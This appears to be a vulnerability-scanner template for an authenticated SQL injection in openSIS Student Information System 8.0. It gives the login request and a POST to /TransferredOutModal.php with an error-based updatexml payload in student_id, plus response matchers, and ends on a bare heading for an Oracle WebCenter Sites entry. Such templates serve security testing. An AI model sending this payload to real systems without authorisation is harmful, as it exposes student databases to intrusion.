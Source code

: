 # openSIS Student Information System 8.0 SQL Injection

## Description

- openSIS Student Information System version 8.0 is susceptible to SQL injection via the student_id and TRANSFER[SCHOOL] parameters in POST request sent to /TransferredOutModal.php.
- severity - high
- tags - sqli,auth,edb,cve,cve2021,opensis

## Requests

### Step - 1

```
POST /index.php HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

USERNAME={{username}}&PASSWORD={{password}}&language=en&log=

```

### Step - 2

```
POST /TransferredOutModal.php?modfunc=detail HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

student_id=updatexml(0x23,concat(1,md5({{num}})),1)&button=Save&TRANSFER[SCHOOL]=5&TRANSFER[Grade_Level]=5

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_2, "\<!-- SQL STATEMENT:") && contains(body_2, "SELECT COUNT(STUDENT_ID)")
  2. status_code_2 == 200
- condition - and

**Payloads**- username

- password

---

# Oracle Fusion Middleware WebCenter Sites 12.2.1.3.0 - SQL Injection
